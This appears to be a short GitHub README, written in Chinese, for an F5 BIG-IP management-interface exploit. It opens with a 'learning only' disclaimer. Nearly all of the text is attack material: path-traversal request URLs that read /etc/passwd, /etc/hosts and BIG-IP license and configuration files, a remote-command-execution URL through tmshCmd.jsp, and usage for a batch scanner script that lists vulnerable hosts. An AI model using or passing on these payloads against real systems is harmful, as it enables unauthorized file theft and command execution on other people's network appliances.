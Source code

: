 # F5
所涉及的全部脚本仅限于学习交流，请勿非法使用，造成一切后果，均由使用者承担！！！
poc:
​
/tmuilogin.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
​
/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/hosts
​
/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.license
​
/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.conf
rce：
​
/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+use

python3.py F5.py -u url.txt -o out.txt

--u 指的是存放需要检测的链接；
--o 指的是存在漏洞的url；
